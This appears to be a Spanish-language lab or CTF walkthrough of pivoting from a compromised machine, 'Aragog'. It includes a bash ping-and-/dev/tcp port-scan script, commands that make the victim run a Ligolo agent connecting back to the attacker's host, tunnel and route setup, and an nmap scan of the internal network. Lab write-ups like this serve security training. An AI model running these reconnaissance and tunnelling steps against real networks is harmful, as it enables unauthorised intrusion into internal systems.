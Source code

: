 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `Ligolo` para hacer la tunelización el agent tiene que ir en la maquina victima y el proxy en la maquina atacante 

El agent lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Deberemos ejecutar el proxy en nuestra maquina atacante con:
`./proxy -selfcert `

Y en la maquina victima el agent con:
`./agent -connect 192.168.1.19:11601 -ignore-cert`

Levantamos la interfaz de ligolo
`sudo ip tuntap add user jalag mode tun ligolo`
`sudo ip link set ligolo up`

En ligolo seleccionamos la sesión con `session` y le damos al Intro
Ejecutamos el comando `start` para que se inicie el tunelizado hacia la maquina victima [[10.10.0.4 (Aragog)]]

Tendremos que añadir la ruta a nustra maquina atacante para poder tener conexion con ella:
`sudo ip route add 10.10.0.0/24 dev ligolo`

Una vez hallamos conseguido el tunelizado haremos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```






